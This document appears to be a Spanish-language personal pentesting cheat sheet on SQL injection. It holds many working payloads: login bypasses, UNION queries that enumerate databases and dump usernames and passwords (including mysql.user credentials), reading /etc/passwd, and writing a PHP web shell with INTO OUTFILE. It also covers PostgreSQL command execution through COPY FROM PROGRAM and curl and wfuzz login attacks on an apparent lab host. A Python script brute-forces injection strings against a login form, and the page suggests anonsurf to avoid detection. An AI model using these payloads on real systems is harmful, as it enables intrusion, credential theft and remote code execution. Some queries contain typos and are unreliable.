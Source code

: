 ```yaml
---
title: SQL Injection
published: true
---
```



* MariaDb sql:
<br>
<p>		* Use <font color="lime">anonsruf </font>para no ser detectado</p>
<p>	    * Mire los valores de símbolos en hexadecimal con <font color="lime">man ascii</font></p>
<p> 	* Mas información de sql en cuanto a código respecta <a href="https://portswigger.net/web-security/sql-injection/cheat-sheet"> aquí </a></p>
<p> 	* Mas laboratorios de pentesting : <a href="https://portswigger.net/web-security/all-labs">aqui</a></p>
<br>

```python

mysql -u{useraname} -p{password} # Conectar a la base de datos.

create database {DATABASE NAME}; # Crea una base de datos.

drop database {DATABASE NAME}; # ELimina una base de datos.

create table users(id int auto_increment PRIMARY KEY, username varchar(32), password varchar(32), vip varchar(32)); # Creacion de tabla.

drop table {TABLE NAME}; # Elimina una tabla.

show databases; # Muestra la base de datos actuales.

use [database_name]; # Usa la base de datos seleccionada.

show tables; # Muestra las tablas de la base de datos.

describe [table_name]; # Muestra la descripcion de una tabla.

select * from [table_name]; # Muestra todo el contenido de una tabla.

insert into users(username, password, vip) values("admin", "adminpass$!-?", "No aplica"); # Insertar valores en una tabla creada.

where = done.
select = selección.
from = de.

	* SQL INJECTION

'or 1 = 1- --

'or 1 = 1#

select * from users where username='admin'or 1=1;-- -; # Listar todos los datos de una tabla.

select * from users where username='admin'order by 5; # Enumerar la cantidad de columnas en una tabla, en este caso el tope era 4 es decir que dara un fallo.

select * from users where username='admin'union select version(),database(),user(),NULL; # Muestra la version,nombre BD, usuario, NULL 'nada'.

select * from users where username='admin'union select load_file('/etc/pass'),NULL,NULL; # Carga el archivo /etc/passwd para poder verlo.

@@version # alternativas a version().

select username from users where username='admin' union select scheme_name from information_schema.schemata; # Observa toda las bases de datos.

select * from users union select 1,2,3,group_contac(schema_name) from information_schema.schemata; # Muestra las bases de datos dentro de la misma cadena es decir, en caso dado que la pagina no le represente todas las bases de datos, esta es una alternativa.

select * from users union select 1,2,3,schema_name from information_schema.schemata limit 1,1; # Otra alternativa de group_contact() para mostrar los datos uno por uno.

select id, username from users union select NULL,table_name from information_schema.tables; #Lista todas las tablas de todas las bases de datos.

select id, username from users union select NULL,table_name from information_schema.tables where table_schema='{BASE DE DATOS}' # Enumera las tablas de una base de datos dada.

select * from users union select NULL,NULL,NULL,column_name from information_schema.columns where table_schema='{BASE DE DATOS}' and table_name='{TABLE NAME}' # Enumera las columnas de una tabla dada.

select username from users union select group_concat(password) from users; # Mira el contenido de una columna.

select username from users union select group_concat(username,':',password, ' -> '); # Para verlos mas ordenado.

select username from users union select group_concat(username,0x3A,password); # Alternativa por si no deja incrustar string, se le incrusta hexadecimal.

select * from users union select NULL,NULL,NULL,group_concat(username,0x3a,password) from practiqueSql.users; # Muestra el contenido de una tabla dada de una base de datos dada.

select * from users union select NULL,NULL,"<?php system('whoami');?>",NULL into outfile "/var/www/html" # Escribir un texto en un archivo.

select * from users union select NULL,NULL,group_concat(User,0x3a,Password) from mysql.user-- - #Enumera las credenciales

```

<br>
<center># PostgreSql RCE 9.3</center>

1. Eliminación de tabla en el caso de que sea existente.

```sql
DROP TABLE IF EXIST cmd_exec;
```

2. Creación de la tabla para la inyección de comando arbitrarios.

```sql
 CREATE TABLE cmd_exec(cmd_output text);
```

3. Inyección de comandos

```sql
 COPY cmd_exec from PROGRAM 'whoami';
```
<br>
<center> # Sql En Panel Login</center>
<br>
```python
#Injeccion sql en panel administrador, desde petenciones con curl:
curl -s -X POST "http://10.10.254.165/login.php" -d "username='|| or 1=1-- - &password=-- -" -i

#Injeccion sql en base a un wordlist de injeccion sql:
wfuzz -t 20 -c -z file,wordlists.txt -d "username=FUZZ\&password=FUZZ" http://10.10.254.165/login.php
```
* Sabiendo estos datos puedo crear perfectamente un script en python que aplique injeccion sql en paneles administradores

```python
#!/usr/bin/python
import requests

id_username = 'username'
id_password = 'password'
url = 'http://10.10.254.165/login.php'
 
sql_payload = [

    "' or 1=1-- -",
    "' || or 1=1-- -",
    "' 1=1-- -"

]
for list in sql_payload:
    datos = requests.post(url, data={id_username : list, id_password : list}, allow_redirects=False)
    if datos.status_code != 200:
        print("[+] Injection sql sucess :", list)
        exit()
    print("Failed : ", datos.status_code, list)


```
